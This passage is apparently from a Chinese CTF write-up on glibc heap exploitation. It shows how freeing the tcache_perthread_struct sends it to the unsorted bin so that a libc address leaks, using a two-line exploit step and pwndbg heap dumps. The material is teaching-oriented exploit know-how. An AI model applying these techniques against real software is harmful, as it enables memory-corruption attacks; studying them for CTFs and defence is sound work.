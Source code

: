 写入padding会覆盖tcache_count所在的地方，从而导致上面那种情况。

## <font style="color:#000000;">泄露libc地址</font>
```python
delete(3)
show(3)
```

<font style="color:#000000;">当我们释放</font>tcache_perthread_struct之后，这个chunk就会进入unsortedbin中：

> 放入unsorted bin中的原因是tcachebin已满且tcache_perthread_struct大小不属于fastbin。
>

执行之后的内存：

```c
pwndbg> heap
Free chunk (unsortedbin) | PREV_INUSE
Addr: 0x555555757000
Size: 0x251
fd: 0x7ffff7dcfca0
bk: 0x7ffff7dcfca0

Allocated chunk
Addr: 0x555555757250
Size: 0x60

Top chunk | PREV_INUSE
Addr: 0x5555557572b0
Size: 0x20d51

pwndbg> x/100gx 0x555555757000
0x555555757000:	0x0000000000000000	0x0000000000000251 #tcache_perthread_struct
0x555555757010:	0x00007ffff7dcfca0	0x00007ffff7dcfca0
    			#tcache_count_所在位置
0x555555757020:	0x6161616161616161	0x6161616161616161
0x555555757030:	0x6161616161616161	0x000000000000000a
.......(省略内容均为空)
0x555555757250:	0x0000000000000250	0x0000000000000060 #chunk
0x555555757260:	0x0000555555757010	0x000000000000000a
0x555555757270:	0x0000000000000000	0x0000000000000000
0x555555757280:	0x0000000000000000	0x0000000000000000
0x555555757290:	0x0000000000000000	0x0000000000000000
0x5555557572a0:	0x0000000000000000	0x0000000000000000
0x5555557572b0:	0x0000000000000000	0x0000000000020d51 #top_chunk
.......(省略内容均为空)
0x555555757310:	0x0000000000000000	0x0000000000000000
pwndbg> x/16gx 0x555555756060
0x555555756060:	0x0000005000000000	0x0000000000000050
0x555555756070:	0x0000000000000000	0x0000000000000000
0x555555756080:	0x0000555555757260	0x0000555555757260
0x555555756090:	0x0000555555757260	0x0000555555757010
.......(省略内容均为空)
0x5555557560d0:	0x0000000000000000	0x0000000000000000
pwndbg> bin
tcachebins
0x20 [-96]: 0x0
0x30 [ -4]: 0x0
0x40 [-36]: 0x0
0x50 [ -9]: 0x0
0x60 [ -1]: 0
0x70 [127]: 0x0
0xa0 [-96]: 0x0
0xb0 [ -4]: 0x0
0xc0 [-36]: 0x0
```